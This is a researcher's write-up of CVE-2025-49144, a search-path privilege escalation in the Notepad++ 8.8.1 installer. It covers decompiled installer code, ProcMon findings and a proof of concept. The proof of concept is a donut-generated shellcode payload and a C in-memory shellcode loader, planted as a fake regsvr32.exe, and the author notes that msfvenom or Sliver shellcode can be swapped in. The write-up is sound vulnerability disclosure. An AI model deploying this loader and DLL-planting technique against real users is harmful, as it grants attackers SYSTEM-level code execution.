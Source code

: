 # Notepad++ - CVE-2025-49144

### CVE-2025-49144

#### Description <a href="#vulndescriptiontitle" id="vulndescriptiontitle"></a>

Notepad++ is a free and open-source source code editor. In versions 8.8.1 and prior, a privilege escalation vulnerability exists in the Notepad++ v8.8.1 installer that allows unprivileged users to gain SYSTEM-level privileges through insecure executable search paths. An attacker could use social engineering or clickjacking to trick users into downloading both the legitimate installer and a malicious executable to the same directory (typically Downloads folder - which is known as Vulnerable directory). Upon running the installer, the attack executes automatically with SYSTEM privileges. This issue has been fixed and will be released in version 8.8.2.

Source: [https://nvd.nist.gov/vuln/detail/CVE-2025-49144](https://nvd.nist.gov/vuln/detail/CVE-2025-49144)

***

I used a simple file creation, but this works with any msfvenom, silver shellcode.

***

## Summary:

The vulnerability stems from how the installer checks for the regsvr32. During Dynamic Analysis I've found that it first tries to find it in the working directory of the installer, meaning that the PATH is not quoted, thus not absolute.

***

## Static Analysis

Every vulnerability hunt begins with a hypothesis. Based on the description of the CVE and given the fact that installers run with elevated privileges, I wanted to see what kernel32.dll are called by the installer or any other WinAPI calls.

<figure><img src="../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Upon analyzing more functions, I found myself in a rabbithole and I came to the conclusion that this might be a NSIS unpacker.

This was one of the things that made me think of that strongly:

```c
void FUN_004066bf(LPWSTR param_1,int param_2)
// Key API calls found inside the path resolution function FUN_004066bf
GetSystemDirectoryW(lpBuffer, 0x400);
GetWindowsDirectoryW(lpBuffer, 0x400);
SHGetPathFromIDListW(pidl, lpBuffer);
lstrcatW(lpBuffer, L"\\Microsoft\\Internet Explorer\\Quick Launch");
```

On top of that, the **`entry`**&#x66;unction confirmed my hunch:

The following calls made it clearer:&#x20;

* `GetTempPathW(...)`
* `wsprintfW(..., u_~nsu%X.tmp_0040a314, ...)`
* `SetCurrentDirectoryW((LPCWSTR)&DAT_00436800)`
* `CopyFileW(...)`

```c
 GetTempPathW(0x400,(LPWSTR)&DAT_00436800);
  iVar5 = FUN_00403614();
  if (iVar5 == 0) {
    GetWindowsDirectoryW((LPWSTR)&DAT_00436800,0x3fb);
    lstrcatW((LPWSTR)&DAT_00436800,u_\Temp_0040a354);
    iVar5 = FUN_00403614();
    if (iVar5 == 0) {
      GetTempPathW(0x3fc,(LPWSTR)&DAT_00436800);
      lstrcatW((LPWSTR)&DAT_00436800,(LPCWSTR)&DAT_0040a34c);
      SetEnvironmentVariableW(u_TEMP_0040a340,(LPCWSTR)&DAT_00436800);
      SetEnvironmentVariableW((LPCWSTR)&DAT_0040a338,(LPCWSTR)&DAT_00436800);
      iVar5 = FUN_00403614();
      if (iVar5 == 0) goto LAB_00403b90;
    }

  }

while( true ) {

            wsprintfW((LPWSTR)(&DAT_00436800 + iVar5 * 2),u_~nsu%X.tmp_0040a314,(uint)uVar1);
            FUN_004066bf((LPWSTR)&DAT_0042c800,*(int *)(DAT_00429a70 + 0x120));
            if (pvStack_3e4 == (HANDLE)0x0) {
              DVar15 = FUN_00405c30((LPCWSTR)&DAT_00436800);
            }

            else {
              DVar15 = FUN_00405bd6((LPCWSTR)&DAT_00436800);
            }

 SetCurrentDirectoryW((LPCWSTR)&DAT_00436800);
  BVar3 = CopyFileW((LPCWSTR)&DAT_00437800,(LPCWSTR)&DAT_0042c800,1);

```

Upon digging more into some functions: `HWND FUN_00401434(HWND param_1)`, I noticed that this is a big switch-case block. Interesting stuff I found at 0x28:&#x20;

<figure><img src="../.gitbook/assets/2025-06-30 11_45_48-CodeBrowser_ Notepad-CVE-2025-49144__npp.8.8.1.Installer.x64.exe.png" alt=""><figcaption></figcaption></figure>

```c
case 0x28:
    // Stack calls to several functions
    pWVar21 = FUN_00402dab(0);      // Probably executable
    pWVar8 = FUN_00402dab(0x31);     // Probably the execute verb
    pWVar26 = FUN_00402dab(0x22);   // Parameters
    // ...
    // Structure 'local_90' gets assembled with the parameters
    local_90._12_4_ = -(uint)(*pWVar21 != L'\0') & (uint)pWVar21; // Sets lpFile
    local_90._16_4_ = pWVar8;                                    // Sets lpVerb
    local_90._20_4_ = -(uint)(*pWVar26 != L'\0') & (uint)pWVar26; // Sets lpParameters
    // ...
    // Wrapper call with the structure assembled
    iVar20 = FUN_00405ca8((SHELLEXECUTEINFOW *)local_90);
    // ...
    break;
```

After this wrapper call we can see several Reg calls:

<figure><img src="../.gitbook/assets/2025-06-30 11_47_12-CodeBrowser_ Notepad-CVE-2025-49144__npp.8.8.1.Installer.x64.exe 0x32(reg).png" alt=""><figcaption></figcaption></figure>

There are many Reg Calls after the Shell Direct API Call, meaning that somewhere in between regsvr32.exe is called. I tried filtering for string, but we can't find a PATH directly.

<figure><img src="../.gitbook/assets/2025-06-30 11_48_17-CodeBrowser_ Notepad-CVE-2025-49144__npp.8.8.1.Installer.x64.exe(more reg calls).png" alt=""><figcaption></figcaption></figure>

Going deeper:

```c
void FUN_00405ca8(SHELLEXECUTEINFOW *param_1)
{
  param_1->lpIDList = (void *)0x0;
  param_1->cbSize = 0x3c;
  ShellExecuteExW(param_1); // <-- DIRECT API CALL
  return;
}
```

I am still a beginner in RE and static, so I decided to move to ProcMon and confirm my hunches.

***

## Dynamic Analysis

Turned on ProcMon and started investigating.&#x20;

Filtering out the npp installer, didn't take me too long to see such a gem (from an attacker perspective):

<figure><img src="../.gitbook/assets/ProcMon1.PNG" alt=""><figcaption></figcaption></figure>

Voila! The installer tried to find regsvr32.exe first in the directory file! Meaning that the PATH is unquoted, thus not absolute!

To further confirm my initial hunch, I decided to check what's going on in the Temp directory:

<figure><img src="../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

***

## Writing the PoC

I decided to simply write a .cs file:

```csharp
using System.IO;
public class PoC {
    public static void Main() {
        File.WriteAllText(@"C:\Windows\Temp\NOTEPAD_VULNERABIL.txt", "Acest fisier demonstreaza executia de cod cu privilegii de SYSTEM.");
    }
}
```

Then convert it into shellcode with donut, storing it in a header file.

Wrote a small C code to load that shellcode in memory:

```c
#include <windows.h>
#include "payload.h"

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
    
    unsigned int payload_len = sizeof(payload);

    void * exec_mem;
    BOOL rv;
    HANDLE th;
    DWORD oldprotect = 0;

    exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (exec_mem == NULL) {
        return 1;
    }

    RtlMoveMemory(exec_mem, payload, payload_len);

    rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);

    if ( rv != 0 ) {
            th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)exec_mem, 0, 0, 0);
            WaitForSingleObject(th, -1);
    }

    return 0;
}
```

Compiled it as `regsvr32.exe` and stored it in the same folder with the installer.

***

## PoC Video

{% embed url="https://youtu.be/e1vdlf698D8" %}

